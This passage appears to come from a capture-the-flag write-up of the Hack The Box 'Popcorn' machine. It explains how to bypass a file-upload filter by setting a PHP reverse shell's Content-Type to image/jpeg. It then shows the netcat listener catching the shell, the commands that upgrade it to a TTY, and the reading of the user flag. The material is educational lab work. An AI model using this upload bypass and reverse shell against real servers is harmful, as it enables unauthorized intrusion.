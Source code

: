 Let us first try to modify the iamge into our php reverse shell code using double extensions by renaming the php reverse shell to ```shell.php.jpg```. However, this was unable to work as the file is interpreted as a jpg file. 

Now, what we do is that we will upload the php reverse shell but we will modify the Content-Type from application/x-php to image/jpeg

![Modify request](https://github.com/joelczk/writeups/blob/main/HTB/Images/Popcorn/modify_request.png)

This will successfully uplaod the php reverse shell. All we have to do is to refresh the page and click on the uploaded image to spawn the reverse shell. 
### Obtaining reverse shell
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.6] 52439
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
/bin/sh: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: python3: not found
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ export TERM=xterm
export TERM=xterm
www-data@popcorn:/$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@popcorn:/$ 
```

### Obtaining user flag
We actually realize that even though the user is www-data, it has the privileges to obtain the user flag in /home/george/user.txt

```
www-data@popcorn:/$ cd /home
cd /home
www-data@popcorn:/home$ ls
ls
george
www-data@popcorn:/home$ cat george/user.txt
cat george/user.txt
<Redacted user flag>
```
